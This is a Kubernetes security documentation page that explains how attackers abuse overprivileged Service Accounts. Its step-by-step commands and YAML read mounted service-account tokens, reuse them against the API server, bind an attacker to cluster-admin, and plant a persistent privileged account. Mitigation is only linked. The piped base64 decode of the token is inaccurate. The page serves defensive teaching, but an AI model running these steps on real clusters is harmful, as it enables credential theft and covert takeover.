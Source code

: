 ```yaml
---
sidebar_position: 13
title: "Privileged Service Accounts"
description: "How attackers exploit overly privileged Kubernetes Service Accounts to gain cluster-wide access and escalate privileges."
---
```


# Privileged Service Accounts

**Service Accounts (SAs)** in Kubernetes provide pods with identities to interact with the cluster API. If **overprivileged**, these accounts can be exploited by attackers to **escalate privileges, manipulate cluster resources, or gain persistent access**.

---

## Exploitation Steps: Abusing Overprivileged Service Accounts

An attacker exploits **misconfigured Service Accounts** to gain unauthorized access to cluster resources.

### Step 1: Identify Overprivileged Service Accounts

The attacker lists available **Service Accounts**:

```bash
kubectl get serviceaccounts --all-namespaces
```

Next, they check for **excessive permissions**:

```bash
kubectl get clusterrolebindings -o json | jq '.items[] | select(.subjects[].kind=="ServiceAccount")'
```

If a Service Account has **cluster-admin** privileges, it is a prime target.

### Step 2: Steal Service Account Tokens

If a pod is running with an overprivileged SA, the attacker accesses its token:

```bash
kubectl exec -it attacker-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | base64 --decode
```

With this token, the attacker authenticates against the Kubernetes API:

```bash
export TOKEN=<stolen-token>
curl -H "Authorization: Bearer $TOKEN" https://<api-server>/api/v1/nodes
```

Now, the attacker can **perform API requests with elevated privileges**.

### Step 3: Escalate Privileges Using RBAC Misconfigurations

If a Service Account has **rolebinding privileges**, the attacker **grants themselves elevated permissions**:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: escalate-privileges
  namespace: default
subjects:
  - kind: User
    name: attacker
    apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

```bash
kubectl apply -f escalate-privileges.yaml
```

Now, the attacker has **cluster-wide administrative control**.

### Step 4: Maintain Persistence in the Cluster

The attacker creates a **new Service Account** with privileged access:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: persistent-access
  namespace: default
```

Then, they bind it to **cluster-admin**:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: persist-access
subjects:
  - kind: ServiceAccount
    name: persistent-access
    namespace: default
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

```bash
kubectl apply -f persist-access.yaml
```

Even if the attacker's original access is revoked, this new **Service Account** ensures **ongoing control over the cluster**.

### Result

The attacker successfully **gained persistent access, escalated privileges, and took control over Kubernetes resources** through an insecure Service Account.

---

## Mitigation Steps

To protect against **privileged Service Account abuse**, follow the security best practices outlined in:

➡ **[Securing Kubernetes Service Accounts](/docs/best_practices/cluster_setup_and_hardening/rbac_and_identity/service_account_mitigation)**

This guide covers techniques such as **restricting RBAC permissions, disabling automatic Service Account mounting, enforcing least privilege, and auditing Service Account usage** to prevent unauthorized access.
